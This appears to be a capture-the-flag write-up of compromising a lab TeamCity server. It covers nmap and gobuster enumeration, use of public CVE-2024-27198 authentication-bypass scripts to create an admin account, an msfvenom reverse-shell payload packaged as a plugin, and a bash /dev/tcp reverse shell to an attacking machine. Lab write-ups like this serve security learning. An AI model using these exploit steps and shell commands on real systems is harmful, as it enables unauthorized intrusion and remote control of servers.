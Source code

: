 # Brains

## RED

### What is the content of flag.txt in the user's home folder?

Try enumeration on the target

```
nmap $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-18 05:31 BST
Nmap scan report for ip-10-10-95-197.eu-west-1.compute.internal (10.10.95.197)
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2
MAC Address: 02:1E:79:AD:80:01 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.33 seconds
```

There are open ports: 22(to ssh), 80(with HTTP!) and 50000 with ibm-db2? [DB2 docs](https://www.ibm.com/db2)

Port 80 is running Apache 2.4.41(Ubuntu) but it doesn't seems to have useful information.

Port 50000 starts with [TeamCity's](https://www.jetbrains.com/teamcity) login page, looking at the console of the browser's devTools is this message:
`Password fields present on an insecure (http://) page. This is a security risk that allows user login credentials to be stolen.`
It also reveals the TeamCity version: Version 2023.11.3 (build 147512)

A login attempt returns a 200, even if the login failed. The request body is

![](images/thm/brains/0.png)

That public key and encrypted password look interesting.

A MITM attack is possible because of HTTP use. Also, there are cookies

![](images/thm/brains/1.png)

And tons of .js scripts on every page.

Some gobuster

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://{target_IP}:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.95.197:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 0] [--> /admin/]
/agent                (Status: 401) [Size: 66]
/agents               (Status: 401) [Size: 66]
/build                (Status: 401) [Size: 66]
/changes              (Status: 401) [Size: 66]
/change               (Status: 401) [Size: 66]
/css                  (Status: 302) [Size: 0] [--> /css/]
/favicon.ico          (Status: 200) [Size: 5430]
/favorite             (Status: 401) [Size: 66]
/img                  (Status: 302) [Size: 0] [--> /img/]
/js                   (Status: 302) [Size: 0] [--> /js/]
/license              (Status: 302) [Size: 0] [--> /license/]
/learn                (Status: 401) [Size: 66]
/maintenance          (Status: 302) [Size: 0] [--> /maintenance/]
/oauth                (Status: 302) [Size: 0] [--> /oauth/]
/overview             (Status: 401) [Size: 66]
/plugins              (Status: 302) [Size: 0] [--> /plugins/]
/problems             (Status: 302) [Size: 0] [--> /problems/]
/profile              (Status: 302) [Size: 0] [--> /profile/]
/project              (Status: 401) [Size: 66]
/queue                (Status: 401) [Size: 66]
/status               (Status: 302) [Size: 0] [--> /status/]
/tests                (Status: 302) [Size: 0] [--> /tests/]
/test                 (Status: 401) [Size: 66]
/update               (Status: 403) [Size: 13]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

And some gobusting in port 80

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://{target_IP}:80
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.95.197:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1069]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Nothing here.

I'll go back to TeamCity on port 50000, try to check for vulnerabilities on version 2023.11.3.
That's it. Found one [CVE-2024-27198](https://github.com/yoryio/CVE-2024-27198) that allow the
attacker to create an admin user under their control. Running the script

```
python CVE-2024-72198.py -t http://{target_IP}:50000 -u admin -p admin
[+] Version Found:  2023.11.3 (build 147512)
[+] Server vulnerable, returning HTTP 200
[+] New user admin created succesfully! Go to http://10.10.211.135:50000/login.html to login with your new credentials :)
```

Now, after logging in as the new user, I can create an access token for API requests to use in `Authorization: Bearer` header.

```
eyJ0eXAiOiAiVENWMiJ9.Z0VXRE1ZalJkaV9RNHlxdUJaTE9weEpLRTY0.MGMxMjcyZjgtMzlkMS00YTE0LWEwYjgtMGFkMGEzN2M4ODg5
```

But nothing comes from it.

There is a Plugins section: `admin/admin.html?item=plugins` and a zip can be uploaded. Maybe a reverse shell can be uploaded?

- With msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST={attacking_machine_IP} LPORT=4444 -f raw > evil_shell.jsp` I can craft a
  Java reverse shell. How do I know that Java is the target? There is a 'Maven Support' listed on the plugins section.

- It turns out that a TeamCity plugin requires a special structure, not only to be zipped. It must be like this

```
|- server
|    |- <server plugin jar files>
|- teamcity-plugin.xml
```

Following the schema in the docs, we ended up with `teamcity-plugin.xml` looking like this

```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                 xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
  <info>

    <name>EvilShell</name> <!-- the name of plugin used in teamcity -->
    <display-name>Hackz!</display-name>
    <description>Some description goes here</description>
    <version>0.1</version>
  </info>
  <requirements min-build="147512" max-build="147512" /> <!-- specify compatible TeamCity server builds -->
  <deployment use-separate-classloader="true" allow-runtime-reload="true" /> <!-- load server plugin's classes in a separate classloader and reload a plugin without the server restart.-->
  <parameters>
    <parameter name="key">value</parameter>
    <!-- ... -->
  </parameters>
</teamcity-plugin>
```

I zipped all the stuff together following the plugin template and uploaded it as a plugin to the server. Unfortunaly, it didn't work.
Requesting /plugins/shell or /plugins/shell/evil_shell.jsp returned a 404 in both cases(even from curl with the bearer token from previous steps).

I also tried manually generating a new project with a custom command execution script to get a reverse shell but I couldn't
run it because there was no agent installed and I failed to install one.

What ended up working is this script [CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE/blob/main/CVE-2024-27198-RCE.py).
Once I've got shell access I started a netcat listener on the attacing machine `nc -lnvp 4444` and run this `sh -i >& /dev/tcp/{attacking_machine_IP}/4444 0>&1`(got it from revshells.com)
on the target shell. The flag was located at `/home/ubuntu`.

## BLUE

# References

- [DB2 docs](https://www.ibm.com/db2)
- [TeamCity](https://www.jetbrains.com/teamcity)
- [CVE-2024-27198](https://github.com/yoryio/CVE-2024-27198)
- [CVE-2024-27198 & CVE-2024-27199](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)
- [TeamCity Plugins Docs](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html#Server-Side+Plugins)
- [CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE/blob/main/CVE-2024-27198-RCE.py)
